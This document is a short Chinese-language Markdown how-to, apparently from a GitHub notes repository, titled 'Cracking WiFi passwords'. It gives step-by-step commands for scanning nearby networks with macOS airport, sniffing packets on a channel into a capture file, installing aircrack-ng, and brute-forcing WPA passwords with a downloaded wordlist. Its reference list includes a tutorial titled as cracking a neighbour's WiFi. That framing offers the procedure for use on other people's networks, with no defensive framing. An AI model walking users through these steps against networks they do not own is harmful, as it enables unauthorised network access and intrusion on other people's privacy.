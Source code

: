 # 破解 WiFi 密码

## 查看网卡名称

```bash
ifconfig
```

Windows下面是：

```bash
ipconfig
```

## 使用airport监听无线网络

给 `airport` 做一个软链接：

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

现在就可以直接使用 `airport` 查看一下附近的 WiFi 信号：

```bash
airport -s
```

- **SSID**: Wi-Fi 名称
- **BSSID**: Wi-Fi 设备的硬件地址
- **RSSI**: 信号强度，值是负数，绝对值越小信号越强
- **CHANNEL**: Wi-Fi 信道
- **HT**: 吞吐量模式，一般都为 Y
- **CC**: 国家，中国为 CN
- **SECURITY**: 加密方式

## 使用airport进行抓包

使用以下命令进行抓包，`1`是指定抓取的信道，如果省略则默认为全部信道。

```bash
airport en1 sniff 1
```

一段时间后`Ctr+c`停止抓包，会生成一个.cap包，看到如下提示

```bash
Session saved to /tmp/airportSniff0RjCAO.cap
```

## 安装 Aircrack-ng

### Windows

```shell
scoop install aircrack-ng
```

### Ubuntu

```shell
sudo apt-get install aircrack-ng
```

### MacOS

```shell
brew install aircrack-ng
```

## 字典

破解都是使用最蠢的暴力破解。因此，需要有密码字典。

- [wpa-dictionary]

## 开始破解

```bash
aircrack-ng -w common.txt /tmp/airportSniff0RjCAO.cap
```

## 参考资料

- [Wi-Fi Cracking](https://github.com/brannondorsey/wifi-cracking)
- [Wifite](https://github.com/derv82/wifite2)
- [Aircrack-ng](https://www.aircrack-ng.org/downloads.html)
- [教你破解隔壁妹子的 wifi 密码，成功率高达 90%](https://imlifengfeng.github.io/article/15/)
- [aircrack-ng 无线网 WIFI 破解教程(上) – WIFI 破解原理](https://www.vuln.cn/2674)
- [macOS 上使用 aircrack-ng 暴力破解 Wi-Fi 密码](https://blog.csdn.net/qq_27198345/article/details/108425823)
- [通过 Aircrack-ng 等工具获取 Wifi 密码](https://github.com/ZoraZora59/Get_Wifi_Password_On_MacOS)
- [Mac 如何关闭 Wi-Fi 监视模式（Monitor Mode）](https://sysin.org/blog/macos-turn-off-monitor-mode/)

[wpa-dictionary]:(https://github.com/conwnet/wpa-dictionary)

